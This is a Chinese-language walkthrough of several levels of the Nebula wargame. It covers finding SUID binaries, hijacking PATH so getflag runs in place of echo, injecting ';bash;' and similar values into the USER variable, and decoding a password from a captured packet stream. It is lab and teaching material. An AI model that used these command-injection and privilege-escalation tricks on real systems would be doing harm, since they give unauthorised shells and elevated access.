



# Nebula

## level00 -- 寻找SUID程序
用`level00`账户登录，找出由`flag00`拥有的 Set User ID的程序

### Solution
要将错误结果送到/dev/null，不然出现很多 Permission denied, 会影响找到该程序。
```sh
$ find / -user flag00 2>/dev/null
/bin/.../flag00
/home/flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
/rofs/bin/.../flag00
/rofs/home/flag00
/rofs/home/flag00/.bash_logout
/rofs/home/flag00/.bashrc
/rofs/home/flag00/.profile
```

或者先查找flag00的uid。`cat /etc/passwd |grep flag00` 得到其uid为999，然后
```
$ find / -uid 999 2>/dev/null
```
也可以找到目标文件。
尝试了一下，`/rofs/bin/.../flag00`即为目标程序。
```sh
level00@nebula:~$ file /rofs/bin/.../flag00
/rofs/bin/.../flag00: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level00@nebula:~$ ll /rofs/bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00*
level00@nebula:~$ /rofs/bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
flag00@nebula:~$ which getflag
/bin/getflag
flag00@nebula:~$ file /bin/getflag
/bin/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$
```
## level01 -- 攻击环境变量$PATH(可执行任意命令)
通过看源文件 level1.c
发现要要通过`system()`来执行shell命令。
```c
system("/usr/bin/env echo and now what?");
```
发现可以对`echo`命令做一下手脚。
在一个有权限的目录下新建一个名为echo的文件，
然后将当前目录加入到`PATH`环境变量的前面使得`/usr/bin/env`在找环境变量的时候
先找到我们自己写的这个echo命令(只是暂时生效所以不需要export)。
```
PATH=`pwd`:$PATH
```
然后在这个我们自己写的echo文件中写入**getflag**就可以以flag01的身份得到flag了。

由于/tmp目录对于任何用户都有完整的权限，虽然该目录下的文件在重启之后会消失，但我们可以在这个目录下操作。
或者也可以在/tmp目录下创建一个`/bin/getflag`的符号链接(该文件为root所拥有，其他用户没有执行权限)。
```
$ ln -s /bin/getflag /tmp/echo
```
然后将/tmp目录加入到环境变量的最前面，
```
$ PATH=/tmp:$PATH
```
这样可以让我们的这个echo程序优先于`/bin/echo`程序执行。
## level02
查看源文件level02.c
发现
```c
char *buffer = NULL;

asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
        
system(buffer);
```
通过getenv函数获得指定的环境变量UUSER的值(USER变量的值是当前登录的用户名)
要从系统环境变量中得到$USER变量，再用asprintf函数将USER的值与其他字符串连接在一起并存放在buffer变量内，
最后通过system函数执行buffer中的内容，即执行`/bin/echo %s is cool`。
由于这里已经写死了。用`/bin/echo`这个可执行文件，所以我们不能对echo文件做手脚了。
然而这个$USER变量是我们可控的。
于是我们
```sh
USER=";bash;"
```
这样就已flag02的身份得到bash了.
```sh
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ echo $USER
level02
level02@nebula:/home/flag02$ USER=";bash;"
level02@nebula:/home/flag02$ echo $USER
;bash;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
然后就可以在flag02的shell里面执行`getflag`得到shell了。
或者直接
```sh
$ USER="test && /bin/getflag"
```
或者
```sh
$ USER=";/bin/getflag"
```
即以flag02的身份执行`/bin/echo;/bin/getflag`。
反正这个 $USER 变量是我们可控的，我们可以已flag02的身份执行任意字符串。
关于这里的`;` 和`&&`的区别。`;`表示执行完上一句紧接着执行下一句，而`&&`得在上一条命令执行成功之后再执行下一句。
## level03 -- 攻击计划任务(crontab)

```sh
for i in /home/flag03/writeable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
其中ulimit -t 5控制CPU时间不超过5秒，bash -x "$i"用于执行$i文件。执行完之后删除文件本身。

## level04 -- 绕过权限获得token

## level07
参考:
http://blog.yyx.me/posts/exploit-exercises-nebula-level-05-09.html
在`/home/flag07`目录下找到一个`capture.pcap`，所以拖出来到宿主机上用wireshark分析。跟踪TCP流，发现
`Password: backdoor...00Rm8.ate`
根据经验，一般16进制工具中.都是代表\0，就是字符串结尾（其实.表示不可读字符，一般在一堆字符串中时基本就是\0），所
以密码应该是backdoor。尝试登录，错误！于是在wireshark中吧TCP包切换到HEX显示，发现这段数据信息如下：
`
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
`



竟然是7F，查ASCII码表发现7F是Backspace（退格），0D是CR（回车），所以就按照这个顺序重新比划了下，
得到密码是backd00Rmate
